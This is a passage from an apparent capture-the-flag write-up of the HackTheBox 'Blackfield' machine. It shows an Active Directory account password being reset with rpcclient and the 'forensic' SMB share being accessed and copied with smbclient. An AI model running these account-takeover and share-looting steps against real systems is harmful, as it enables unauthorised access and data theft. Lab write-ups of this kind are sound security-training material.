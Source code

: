 ```
SeRemoteShutdownPrivilege               0:24 (0x0:0x18)
SeUndockPrivilege               0:25 (0x0:0x19)
SeSyncAgentPrivilege            0:26 (0x0:0x1a)
SeEnableDelegationPrivilege             0:27 (0x0:0x1b)
SeManageVolumePrivilege                 0:28 (0x0:0x1c)
SeImpersonatePrivilege          0:29 (0x0:0x1d)
SeCreateGlobalPrivilege                 0:30 (0x0:0x1e)
SeTrustedCredManAccessPrivilege                 0:31 (0x0:0x1f)
SeRelabelPrivilege              0:32 (0x0:0x20)
SeIncreaseWorkingSetPrivilege           0:33 (0x0:0x21)
SeTimeZonePrivilege             0:34 (0x0:0x22)
SeCreateSymbolicLinkPrivilege           0:35 (0x0:0x23)
SeDelegateSessionUserImpersonatePrivilege               0:36 (0x0:0x24)
```

If this is the case then maybe I can change password for some other users, according to <a href="https://malicious.link/post/2017/reset-ad-user-password-with-linux">mubix blog-post</a>. So I tried changing the password for the high privileged accounts,until I found that it worked on the audit2020 account:




```
set userinfo2 audit2020 23 ‘TestTest123!’
```

The password needs to be a bit complex to get this to work. This according to the password policy for the domain.


### [](#header-3)Forensic SMB share

So after a bit of testing different things I took a look at the SMB enumeration from earlier. There is a share called forensic.I logged in and listed the content with the user audit2020.


```
Smbclient -U audit2020 //10.10.10.192/forensic
```

![](Pictures/Blackfield/smbclient2.png)

On my Kali machine I created a folder, SMB, and a folder inside called forensic. Then I mounted the forensic share and copied all the files to my local machine.

